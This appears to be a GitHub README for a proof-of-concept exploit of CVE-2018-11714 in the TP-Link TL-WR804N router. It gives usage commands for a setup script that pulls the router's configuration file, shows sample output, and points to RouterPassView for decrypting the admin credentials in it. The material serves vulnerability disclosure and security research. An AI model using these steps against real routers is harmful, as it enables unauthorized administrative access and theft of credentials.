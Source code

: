 # TPLINK TL-WR804N Exploit
This is Proof Of Concept based on CVE-2018-11714 which was found by *Thouid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware 0.9.1 3.16 v0001.0 Build 170608 Rel.58696n. And it hasn't been repaired until this time (0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash (if you use unix).

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl -y
```

### Linux (Using snap store)

```
sudo snap install curl-ijohnson --edge
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
Enter Your Router IP Address : 192.168.0.1
```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual reactos (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os.

### Code Author
- [thecae1](https://github.com/theace1) [the4ce@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you)

### CVE Author
- [Thouid Shaikh](https://blog.securelayer7.net/author/touhid/)

